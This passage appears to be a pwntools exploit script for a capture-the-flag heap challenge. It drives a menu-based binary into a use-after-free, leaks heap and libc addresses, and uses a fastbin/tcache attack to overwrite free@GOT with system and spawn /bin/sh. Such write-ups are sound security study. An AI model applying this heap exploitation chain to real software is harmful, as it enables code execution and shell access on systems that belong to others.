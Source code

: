     r.sendlineafter("index:", str(idx))
    return r.recvuntil("0:")

def editGroup(idx, propogate, groupName):
    r.sendlineafter("Action:", "3")
    r.sendlineafter("index:", str(idx))
    r.sendlineafter("(y/n):", propogate)
    r.sendlineafter("name:", groupName)

def deleteUser(idx):
    r.sendlineafter("Action:", "4")
    r.sendlineafter("index:", str(idx))

def exploit(r):
    userArr = 0x6020e0
    free_got = 0x602018
    
    for i in range(9):
        addUser("A", "B"*i, 0)
    
    # associate users 7 + 8 w/ 2 different groups that have same groupName
    editGroup(7,"y","B"*8)

    # create UAF scenario
    # fill t2's tcache_bin 
    # start placing groupName chunks in main_arena.fastbinsY
    for i in range(8): 
        deleteUser(i) 
    
    sleep(1) # give t2 time to free last group before proceeding
 
    heap_base = u32(displayUser(8)[24:27].ljust(4,'\0'))-0x710    
    log.success("heap_base at: "+hex(heap_base))

    editGroup(8,"y",p64(userArr-0x10)) # fastbin attack target
   
    # alloc 8 chunks
    # place userArr @  head of tcache_bin
    editGroup(8,"n","round1")
    editGroup(8,"n","round2") 
    editGroup(8,"n","round3")
    editGroup(8,"n","round4") # alloc 1 chunk out of tcache, 1 chunk out of fastbin, copy rest of fastbin into tcache

    # fake groupName
    payload  = "/bin/sh\0"
    payload += p64(userArr)
    payload += p64(free_got)
    editGroup(8,"n",payload) 
    
    libc_base = u64(displayUser(1)[30:36].ljust(8,'\0'))-0x8f390 
    system = libc_base+0x47dc0
    log.success("libc_base at: "+hex(libc_base))
    log.success("system@libc at: "+hex(system))
 
    editGroup(1,"y",p64(system)) # overwrite free@got w/system
   
    deleteUser(1) 